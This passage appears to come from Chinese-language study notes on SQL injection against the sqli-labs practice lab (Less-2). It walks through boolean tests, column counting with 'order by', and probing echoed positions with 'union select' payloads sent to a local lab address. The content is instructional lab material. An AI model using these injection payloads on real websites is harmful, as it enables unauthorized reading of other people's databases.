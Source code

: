 ```mysql
SELECT * FROM users WHERE id=1 LIMIT 0,1 
SELECT * FROM users WHERE id=1 and 1=1 LIMIT 0,1  # 页面回显，正常输出
SELECT * FROM users WHERE id=1 and 1=2 LIMIT 0,1  # 页面回显，提示错误 
```

### 信息收集（高版本数据库）

**必要知识点:**

*在**MYSQL5.0以上版本**中，mysql存在一个自带数据库，名为`information_ schema`，它是一个存储记录有所有数据库名，表名，列名的数据库，也相当于可以通过查询它获取指定数据库下面的表名或列名信息。数据库中符号"."代表下一级，比如xiao.user代表数据库xiao中的表user。因此：*

`information_ schema.tables`：记录所有表名信息的表

`information_ schema.columns`：记录所有列名信息的表

`table_schema`：数据库名

`tables_name`：表名

`column_name`：列名

performance_schema 用于性能分析，而 information_schema 用于存储数据库元数据(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限等。information_schema 中的表实际上是视图，而不是基本表，因此，文件系统上没有与之相关的文件。

#### 猜解数据库列名数量（字段数）

给id赋值时加上`order by`以判断列的数量。

```mysql
192.168.102.130:8888/Less-2/index.php?id=1 order by 5
```

以下结果中，order by 4有回显，order by 5没有，说明列的数量为4。

![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/b292dcde41c4abdc906e588bcbd1d9f974c684b0.png@831w_161h_progressive.webp)

![img](https://i0.hdslb.com/bfs/article/f318d092797ad93d870e6043a4349e3383507bac.png@831w_141h_progressive.webp)

#### 判断select的第几个位置会被前端回显

判断select的第几个位置会被前端回显，后续查询就在该位置进行。其中令id为-1就可以使union前的语句为假，不显示结果。

```mysql
192.168.102.130:8888/Less-2/index.php?id=-1 union select 1,2,3
```

结果显示2，3的位置会被前端回显。

![image-20220726142202091](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726142202091.png)

#### 查询数据库版本

version()

```mysql
192.168.102.130:8888/Less-2/index.php?id=-1 union select version()
```

